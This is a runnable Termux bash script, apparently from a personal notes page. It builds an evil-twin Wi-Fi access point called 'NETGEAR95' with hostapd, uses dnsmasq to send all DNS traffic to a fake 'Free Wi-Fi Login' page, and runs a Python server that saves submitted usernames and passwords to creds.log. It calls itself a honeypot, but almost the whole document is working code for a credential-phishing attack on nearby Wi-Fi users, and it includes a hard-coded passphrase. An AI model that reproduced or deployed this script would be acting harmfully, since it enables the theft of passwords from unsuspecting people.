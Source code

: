 ```yaml
---
created: 2025-07-19T09:58:09-04:00
updated: 2025-07-19T09:59:13-04:00
---
```


# !/data/data/com.termux/files/usr/bin/bash

# Step 1: Install required packages
pkg update -y && pkg upgrade -y
pkg install -y hostapd dnsmasq openssh python httpd nmap

# Step 2: Configure hostapd (Fake Access Point)
cat <<EOF > ~/hostapd.conf
interface=wlan0
driver=nl80211
ssid=NETGEAR95
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=Chris1991
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

# Step 3: Configure dnsmasq (DHCP + DNS)
cat <<EOF > ~/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.100,10.0.0.200,255.255.255.0,12h
dhcp-option=3,10.0.0.223
dhcp-option=6,75.75.75.75,75.75.76.76
address=/#/10.0.0.223
log-queries
listen-address=10.0.0.223
EOF

# Step 4: Create fake login page
mkdir -p ~/honeypot/www
cat <<EOF > ~/honeypot/www/index.html
<!DOCTYPE html>
<html>
  <head>
    <title>Free Wi-Fi Login</title>
  </head>
  <body>
    <h2>Welcome to NETGEAR95</h2>
    <form method="POST" action="/login">
      Username: <input type="text" name="user"><br>
      Password: <input type="password" name="pass"><br>
      <input type="submit" value="Login">
    </form>
  </body>
</html>
EOF

# Step 5: Create login handler to log fake credentials
cat <<EOF > ~/honeypot/server.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs

class HoneypotHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        with open("www/index.html", "rb") as f:
            self.wfile.write(f.read())

    def do_POST(self):
        content_len = int(self.headers.get('Content-Length', 0))
        post_body = self.rfile.read(content_len).decode()
        creds = parse_qs(post_body)
        with open("creds.log", "a") as f:
            f.write(f"Captured: {creds}\\n")
        self.send_response(302)
        self.send_header('Location', '/')
        self.end_headers()

print("🕵️ Honeypot server running at http://0.0.0.0:80")
httpd = HTTPServer(('0.0.0.0', 80), HoneypotHandler)
httpd.serve_forever()
EOF

# Step 6: Start services (if supported)
echo "[*] Starting Fake Access Point..."
hostapd ~/hostapd.conf &

echo "[*] Starting dnsmasq..."
dnsmasq -C ~/dnsmasq.conf &

echo "[*] Starting Honeypot web server..."
cd ~/honeypot
python server.py


chmod +x ~/start_portal.sh
./start_portal.sh


~/honeypot/creds.log
